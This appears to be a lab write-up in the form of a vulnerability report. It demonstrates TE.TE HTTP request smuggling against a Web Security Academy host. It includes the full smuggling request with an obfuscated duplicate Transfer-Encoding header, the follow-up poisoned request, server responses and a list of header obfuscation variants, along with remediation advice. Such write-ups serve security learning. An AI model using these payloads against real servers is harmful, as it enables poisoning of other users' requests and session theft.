


# HTTP Request Smuggling – TE.TE Vulnerability Report

## Summary

A TE.TE (Transfer-Encoding / Transfer-Encoding) HTTP Request Smuggling vulnerability was identified on the target web application. The front-end and back-end servers both use the `Transfer-Encoding` header, but they handle ambiguous or duplicate `Transfer-Encoding` headers differently. By obfuscating one of the headers, an attacker can force one server to ignore it and fall back to `Content-Length`, while the other processes the chunked body. This discrepancy allows smuggling of malicious HTTP requests, leading to request poisoning.

## Affected Host

```
0a270013048e5a5e8009716600380026.web-security-academy.net
```

## Vulnerability Type

**HTTP Request Smuggling – TE.TE**

- **Front-end**: Processes the first valid `Transfer-Encoding: chunked` header. Ignores the obfuscated second header (`Transfer-Encoding: x`) and uses chunked encoding.
- **Back-end**: Encounters an error with the obfuscated `Transfer-Encoding: x` header, ignores **both** `Transfer-Encoding` headers, and falls back to using `Content-Length`.

| Server | Header Used | Behavior |
|--------|-------------|----------|
| Front-end | `Transfer-Encoding: chunked` | Reads body as chunked |
| Back-end | `Content-Length` (fallback) | Reads body using `Content-Length: 4` |

## Step 1 – Smuggling the Malicious Request

The following request was crafted to exploit the parsing discrepancy:

```http
POST / HTTP/1.1
Host: 0a270013048e5a5e8009716600380026.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

### How the obfuscation works

The key to this attack is the duplicate `Transfer-Encoding` headers with an invalid second value:

```http
Transfer-Encoding: chunked
Transfer-Encoding: x
```

- The **front-end** encounters the first `Transfer-Encoding: chunked`. It either ignores the second header or fails to parse the obfuscated value `x`, so it falls back to the first valid header. The front-end therefore processes the body as **chunked**. It reads the chunk size `5c` (92 bytes in decimal), consumes the next 92 bytes (which form the smuggled `GPOST` request), then sees the final chunk `0` and considers the request complete.

- The **back-end** encounters the duplicate headers differently. When it sees `Transfer-Encoding: x` (an invalid value), it may reject both `Transfer-Encoding` headers entirely and fall back to `Content-Length: 4`. Alternatively, different servers handle duplicate headers in various ways (first wins, last wins, or all rejected). In this lab, the back-end falls back to `Content-Length`.

- Using `Content-Length: 4`, the back-end reads only the first 4 bytes of the body: `5c\r\n`. The remaining data (`GPOST / HTTP/1.1 ...`) is left in the TCP buffer and treated as the start of the **next request**.

### Response to the smuggled request

The initial request returns a `200 OK` response, confirming it was processed normally by the front-end:

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=ALbloPOj84ucL4g6U5sVSHhNSistScXe; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 8009
```

**Screenshot 1 – Smuggled Request & 200 OK Response:**

> [Insert screenshot here – Burp Suite showing the crafted TE.TE POST request and the 200 OK response]
  
---

## Step 2 – Triggering the Smuggled Request (Victim Request Poisoning)

After the smuggle, a normal user request is sent. The back-end prepends the leftover smuggled data to this request, corrupting its method.

Normal request sent:

```http
POST / HTTP/1.1
Host: 0a270013048e5a5e8009716600380026.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

foo=bar
```

### What the back-end actually sees

Because of the leftover data from Step 1, the back-end interprets the following:

```http
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0POST / HTTP/1.1
Host: 0a270013048e5a5e8009716600380026.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

foo=bar
```

The back-end attempts to process `GPOST` as an HTTP method. Since `GPOST` is not a valid method, it returns:

```
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```

This confirms that the smuggled prefix (`GPOST`) successfully poisoned the subsequent legitimate request.

**Screenshot 2 – Poisoned Request & 403 Forbidden Response:**

> [Insert screenshot here – Burp Suite showing the normal POST request returning the 403 error with "Unrecognized method GPOST"]
  
---

## TE.TE vs TE.CL – Key Difference

| Attack Type | Technique | How Servers Differ |
|-------------|-----------|-------------------|
| **TE.CL** | `Content-Length` + `Transfer-Encoding` | Front-end uses `Transfer-Encoding`, Back-end uses `Content-Length` |
| **TE.TE** | Duplicate `Transfer-Encoding` headers with obfuscation | Front-end uses chunked, Back-end ignores both and falls back to `Content-Length` |

In TE.TE, the attacker must **obfuscate** one of the `Transfer-Encoding` headers so that one server ignores it while the other processes it. Common obfuscation techniques include:

- `Transfer-Encoding: x` (invalid value)
- `Transfer-Encoding: chunked\r\nTransfer-Encoding: x`
- `Transfer-encoding: chunked` (lowercase manipulation)
- `Transfer-Encoding : chunked` (added space)

## Impact

- **Request Smuggling / Poisoning**: An attacker can prepend arbitrary data to other users' requests, potentially stealing cookies, injecting malicious payloads, or bypassing security controls.
- **Session Hijacking**: Smuggled requests can capture other users' session tokens.
- **Cache Poisoning**: Malicious responses can be cached and served to legitimate users.
- **Bypassing Security Controls**: Web Application Firewalls (WAFs) and other front-end security measures can be bypassed.

## Remediation

- **Use HTTP/2 end-to-end** where possible. HTTP/2 uses a binary framing layer that is not susceptible to this class of smuggling attacks.
- **Reject ambiguous requests**: Configure both front-end and back-end servers to reject requests containing duplicate or conflicting `Transfer-Encoding` headers.
- **Normalize headers**: Ensure that malformed or obfuscated headers are rejected or normalized consistently across all servers.
- **Keep software updated**: Regularly update web server, proxy, and load balancer software to the latest versions with security patches.
- **Use consistent parsing**: Configure the entire infrastructure to use the same HTTP parsing libraries and versions.

## Proof of Concept

| Step | Request Sent | Server Response |
|------|--------------|-----------------|
| 1 | Smuggled POST with duplicate `Transfer-Encoding` headers and obfuscation | `200 OK` (front-end processes normally) |
| 2 | Normal POST request | `403 Forbidden` with `"Unrecognized method GPOST"` |

## References

- [PortSwigger Web Security Academy – HTTP Request Smuggling (TE.TE)](https://portswigger.net/web-security/request-smuggling)
- [OWASP – HTTP Request Smuggling](https://owasp.org/www-community/attacks/HTTP_Request_Smuggling)
